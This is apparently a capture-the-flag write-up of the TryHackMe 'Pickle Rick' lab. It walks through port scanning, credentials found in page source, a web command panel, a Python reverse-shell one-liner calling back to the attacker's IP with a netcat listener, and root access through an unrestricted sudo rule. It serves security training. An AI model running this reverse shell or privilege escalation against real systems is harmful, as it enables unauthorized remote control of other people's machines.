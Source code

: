 # THM - Pickle Rick

#### Ip: 10.10.103.60
#### Name: Pickle Rick
#### Rating: Easy

----------------------------------------------------------------------

![pickle.jpeg](../assets/pickle_rick_assets/pickle.jpeg)

```text
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -p-  --min-rate 10000 10.10.103.60 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basuc scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -sC -sV -T4 10.10.103.60 -p 22,80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5235f7e6c7c64166d9efe23b67dc765c (RSA)
|   256 d00a4604437517acce7f615384723ce7 (ECDSA)
|_  256 0eb8ff00831db6bb1d5c800b7be0c9c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.07 seconds
```

Heading to the sight we see a note from Rick to Morty:

![site.png](../assets/pickle_rick_assets/site.png)

Checking out the source of the page we find a username left as a comment:

![note.png](../assets/pickle_rick_assets/note.png)

Cool. Lets also manually check for a robots.txt page while we're here:

![robots.png](../assets/pickle_rick_assets/robots.png)

Ok, not exactly positive what this is. Trying to go to http://10.10.103.60/Wubbalubbadubdub we get a Not Found page. 

Lets do some directory fuzzing to see if we can find any other pages:

![ferox.png](../assets/pickle_rick_assets/ferox.png)

Looks like we've found a login page. Let's check that out:

![login.png](../assets/pickle_rick_assets/login.png)

Nice! We were able to login with the found username and used Wubbalubbadubdub for the password.

Interesting, looks like there is a panel to execute commands on the server with. Running `whoami` we see we have execution:

![panel.png](../assets/pickle_rick_assets/panel.png)

Trying to go to access any other materials on the site we get redirected to `/denied.php`

![denied.png](../assets/pickle_rick_assets/denied.png)

Funily enough, checking out the source code of the page we find another comment:

```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

This looks like Base64 encoded text.

Trying to decode it in the terminal I realize it's been encoded multiple times, so I keep adding additional decoding until I finally get to the clear text:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
base64: invalid input
base64: invalid input
rabbit hole
```
Ha- here we are getting trolled by the box creators. 

Looks like we'll need to move on.

Going back to the command panel running `ls -la` shows me some interesting files:

```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Trying to view any of these files using the `cat` command is blocked:

![cmd.png](../assets/pickle_rick_assets/cmd.png)

Ok, so there must be some command filtering happing here. Lets try and bypass this by using the panel to get a reverse shell.

### Exploitation

First I'll set up a Netcat listener on my attacking machine and then head over to revshells.com

From there i can grab a Python reverse shell oneliner and run it:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And a second later I get a call back to my listener:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.103.60] 48232
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-103-60
$ ls -la
ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

From here I can answer the first question:

```text
What is the first ingredient that Rick needs?
```

![first.png](../assets/pickle_rick_assets/first.png)

Looks like there was a clue left behind:

```text
www-data@ip-10-10-103-60:/var/www/html$ cat clue.txt 
Look around the file system for the other ingredient.
```

Poking around the box a bit more we find the second ingredient in rick's `/home` directory:

```text
What is the second ingredient in Rick’s potion?
```

![second.png](../assets/pickle_rick_assets/second.png)

### Privilege Escalation

Lets try and get root access now. I'll try `sudo -l` to list out any commands I can run with root permissions:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-103-60.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-103-60.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow- looks like we can run whatever we want as sudo. Lets just switch our user to the root user:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo su -
root@ip-10-10-103-60:~# whoami
root
root@ip-10-10-103-60:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And from there we can answer the final question:

```text
What is the last and final ingredient?
```

![third.png](../assets/pickle_rick_assets/third.png)

Thanks for following along!

-Ryan

------------------------------------------------------------------
